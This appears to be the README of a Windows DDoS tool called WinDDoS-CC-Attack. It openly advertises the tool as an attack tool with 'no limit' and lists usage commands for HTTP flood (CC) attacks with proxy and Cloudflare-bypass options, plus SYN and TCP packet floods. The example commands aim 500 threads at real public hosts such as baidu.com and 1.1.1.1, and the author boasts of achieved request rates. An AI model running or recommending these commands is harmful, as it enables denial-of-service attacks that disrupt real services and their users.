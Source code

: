 # WinDDoS-CC-Attack Version 1.1

Written By Unicode (ImageWorkshop)  
It's a Internet attack tool, you can use it for your attack & it has no limit  
L4 mode -DDoS  
L7 mode -CC  
I tried on 2h4g azure  
5w/s in https://dstat.cc/  XD  
****
Usage: main.exe -L7 Url threads time mode [proxy]  
       main.exe -L4 IP Port threads time -SYN/-tcp PacketSize(byte)  

2.Examples:
main.exe -L7 http://www.baidu.com/ 500 120 -normal proxy.txt  
main.exe -L7 http://www.baidu.com/ 500 120 -cf proxy.txt  
main.exe -L7 http://www.baidu.com/ 500 120 -normal  
main.exe -L7 http://www.baidu.com/ 500 120 -cf  
main.exe -L4 1.1.1.1 80 500 120 -SYN 65500  
main.exe -L4 1.1.1.1 80 500 120 -tcp 65500  

UDP mode will be supported in the future  
